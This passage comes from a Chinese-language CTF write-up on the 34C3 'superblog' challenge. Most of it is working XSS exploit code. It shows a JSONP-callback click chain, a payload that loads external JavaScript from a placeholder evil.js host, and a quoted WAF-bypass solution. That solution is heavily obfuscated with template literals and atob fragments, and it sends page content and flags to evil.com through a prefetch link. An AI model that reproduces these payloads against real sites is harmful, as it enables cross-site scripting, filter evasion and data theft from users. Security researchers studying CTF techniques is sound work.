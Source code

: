 3、通过两次点击，打开一个static目录的页面，然后跳转到下一个js执行的页面
```
<a id="aa" href="{post3}" target="_blank"></a>
<a id="bb" href="/static/"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,document.getElementById`bb`.click``,console.log"></script>
```

4、通过向static页面写入外部js来执行任意js代码，为了更好的处理，payload可以写入标题，写入代码可以写在内容里。
```
标题：<script src="http://xxxxx/evil.js"></script>
内容：<script src="/feed?type=jsonp&cb=opener.document.write`${document.body.firstElementChild.nextElementSibling.firstElementChild.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.innerText}`,console.log"></script>
```

接下来就是随意开火了，因为evil.js里没有任何限制，你可以做任何需要的操作。

一个完整的利用链就形成了

有趣的是，这个题目是可以强行绕waf来执行js的。

## 另一种解法 ##

在ctftime的writeup区域，看到了一种强行绕过waf的解法

[https://gist.github.com/cgvwzq/2d875cb4bd752a99ca239e6ffe64f849](https://gist.github.com/cgvwzq/2d875cb4bd752a99ca239e6ffe64f849)

上面曾经提到过，关于符号的过滤，遗留下了几个特别的还能利用的字符``{}.$`,没想到的是，通过这几个字符，可以强行构造可执行的js

```
<!-- superblog 1 - flag: 34C3_so_y0u_w3nt_4nd_learned_SOME_javascript_g00d_f0r_y0u -->
<script>
document.write`${Array.call`${atob`PA`}${`l`}${`i`}${`n`}${`k`}${atob`IA`}${`r`}${`e`}${`l`}${atob`PQ`}${atob`Ig`}${`p`}${`r`}${`e`}${`f`}${`e`}${`t`}${`c`}${`h`}${atob`Ig`}${atob`IA`}${`h`}${`r`}${`e`}${`f`}${atob`PQ`}${atob`Ig`}${`h`}${`t`}${`t`}${`p`}${atob`Og`}${atob`Lw`}${atob`Lw`}${`evil`}${atob`Lg`}${`com`}${atob`Og`}${atob`Lw`}${Math.random``}${`_`}${escape.call`${document.getElementsByTagName`link`.item``.import.body.innerText}`}${atob`Ig`}${atob`Pg`}`.join``}`,
</script>
  
<!-- superblog 2 - flag: 34C3_h3ncef0rth_peopl3_sh4ll_refer_t0_y0u_only_4s_th3_ES6+DOM_guru -->
<script>
document.write`${foo.import.body.innerHTML}`,document.write`${Array`${atob`PA`}${`input`}${atob`IA`}${`form`}${atob`PQ`}${`flagform`}${atob`IA`}${`name`}${atob`PQ`}${`captcha_answer`}${atob`IA`}${`x`}${atob`PQ`}${atob`Ig`}`.join``}${atob`Ig`}${`value`}${atob`PQ`}${parseInt.call`${foo.import.getElementById`flagform`.firstChild.nextSibling.nextSibling.textContent.split`%2b`.shift``}`%2bparseInt.call`${foo.import.getElementById`flagform`.firstChild.nextSibling.nextSibling.textContent.split`%2b`.pop``}`}${atob`Pg`}`,document.write`${atob`PA`}${`script`}${atob`IA`}${`src`}${atob`PQ`}${atob`Lw`}${`feed`}${atob`Pw`}${`type`}${atob`PQ`}${`jsonp`}${atob`Jq`}${`cb`}${atob`PQ`}${`flagform.lastElementChild.click`}${atob`YA`}${atob`YA`}${`,document.write${atob`YA`}${atob`JA`}${`{localStorage.getItem`}${atob`YA`}${`$`}${`{`}${atob`YA`}${atob`YA`}${`}`}${atob`YA`}${`}`}${`$`}${`{flag.innerText}`}${atob`YA`}${`,`}${atob`Pg`}${atob`PA`}${atob`Lw`}${`script`}${atob`Pg`}`}`,localStorage.setItem`${Array.call`}${atob`PA`}${`link`}${atob`IA`}${`rel`}${atob`PQ`}${atob`Ig`}${`prefetch`}${atob`Ig`}${atob`IA`}${`href`}${atob`PQ`}${`http`}${atob`Og`}${atob`Lw`}${atob`Lw`}${`evil`}${atob`Lg`}${`com`}${atob`Og`}${atob`Lw`}${Math.random``}${`_`}`.join``}`,
</script>
```
